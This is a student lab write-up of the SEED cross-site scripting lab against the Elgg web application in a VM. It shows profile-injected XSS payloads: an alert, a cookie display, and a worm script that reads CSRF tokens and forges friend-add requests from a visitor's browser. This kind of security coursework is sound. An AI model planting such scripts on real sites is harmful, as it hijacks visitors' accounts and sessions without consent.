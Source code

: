 ```yaml
---
title: "CSC154: Lab 6 - XSS Attack"
author: Ryan Kozak
date: "2019-12-04"
subject: "CSC154 Lab 4"
keywords: [CSUS, CSC154, XSS]
lang: "en"
titlepage: true
titlepage-text-color: "FFFFFF"
titlepage-color: "004E36"
titlepage-rule-color: "C4B581"
logo: "./images/csus.png"
logo-width: 150
...
```


# Goal  
To fully demonstrate what attackers can do by exploiting XSS vulnerabilities.


# Lab Environment  
In this lab, we need three things, which are already installed in the provided `SEEDUbuntu12.04` VM image: (1) the Firefox web browser, (2) the Apache web server, and (3) the Elgg web application. For the browser, we need to use the LiveHTTPHeaders extension for Firefox to inspect the HTTP requests and responses. The pre-built Ubuntu VM image provided to you has already installed the Firefox web browser with the required extensions.  

The user accounts for Elgg are found below.  

| User          | UserName      | Password     |
| ------------- |:-------------:| ------------:|
| Admin         | admin         | seedelgg     |
| Alice         | alice         | seedalice    |
| Boby          | boby          | seedboby     |
| Charlie       | charlie       | seedcharlie  |
| Samy          | samy          | seedsamy     |



# Lab Tasks  

## Posting a Malicious Message to Display an Alert Window  
The objective of this task is to embed a JavaScript program in our Elgg profile, such that when another
user views our profile, the JavaScript program will be executed and an alert window will be displayed. The
following JavaScript program will display an alert window:  

```javascript
<script>alert('xss');</script>
```

To accomplish this, we simply login as Samy, and navigate to edit our profile. As can be seen in Figure 1 below, we've placed our JavaScript payload in the "Brief Descriptoin" portion of Samy's profile.  
![1_1_samy](./images/1_1_samy.png)  
\ **Figure 1:** JavaScript alert window payload to demonstrate XSS.  

![1_2_samy](./images/1_2_samy.png)  
\ **Figure 2:** JavaScript alert window fires when Samy's profile is visited.  


## Posting a Malicious Message to Display Cookies
The objective of this task is to embed a JavaScript program in our Elgg profile, such that when another user views our profile, the user's cookies will be displayed in the alert window. This can be done by adding some additional code to the JavaScript program in the previous task, more specifically `document.cookie` as such: 
```javascript
<script>alert(document.cookie);</script>
```

To accomplish this, we repeat the previous task, but replace the `'xss'` string, with `document.cookie`.  
![2_1_samy](./images/2_1_samy.png)  
\ **Figure 3:** JavaScript alert window payload to display user's cookie for the site.  

![2_2_samy](./images/2_2_samy.png)  
\ **Figure 4:** JavaScript alert window displays our Elgg cookie when visiting Samy's profile.




### Writing an XSS Worm  
In this and next task, we will perform an attack similar to what Samy did to MySpace in 2005 (i.e. the Samy Worm). In this task, we need to write a malicious JavaScript program that forges HTTP requests directly from the victim's browser, without the intervention of the attacker. The objective of the attack is to modify the victim's profile and add Samy as a friend to the victim. 

We can view the requests made to the server when adding a friend, by using the Live HTTP Headers plugin. In Figure 5 below, we're viewing the request made when Boby adds Alice as a friend.  
![add_friend_http_request](./images/add_friend_http_request.png)  
\ **Figure 5:** HTTP Headers for friend request, Boby to Alice.  


We can also see by hovering over the link to to add Samy as a friend, the url is `http://www.xsslabelgg.com/action/friends/add?friend=42&__elgg_ts=1575329197&__elgg_token=ac28852afbfcd82a9fd72aa9923110f3`.

Using this information we can construct an AJAX request to add Samy as a friend as soon as you visit his profile. To create our worm this we've developed the following JavaScript code, which we embed in the About Me section of Samy's profile.

```javascript
<script>

var Ajax=null;
var ts = elgg.security.token.__elgg_ts;
var token = elgg.security.token.__elgg_token;

// 42 is Samy's GUID
var content = "friend=42&__elgg_ts="+ts+"&__elgg_token="+token;

Ajax=new XMLHttpRequest();
Ajax.open("GET","http://www.xsslabelgg.com/action/friends/add?"+content,true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
Ajax.send(null);

</script>
```

![developing_worm](./images/developing_worm.png)  
\ **Figure 6:** Developing worm payload in FireBug.  

![samy_worm_embed](./images/samy_worm_embed.png)  
\ **Figure 7:** JavaScript payload to add Samy as a friend when is profile is visited (Worm). 

Now after we visit Samy's profile as Alice, we see that Alice has added him as a friend.  

![alice_samy](./images/alice_samy.png)  
\ **Figure 8:** Alice added Samy as friend by visiting his page with XSS payload.  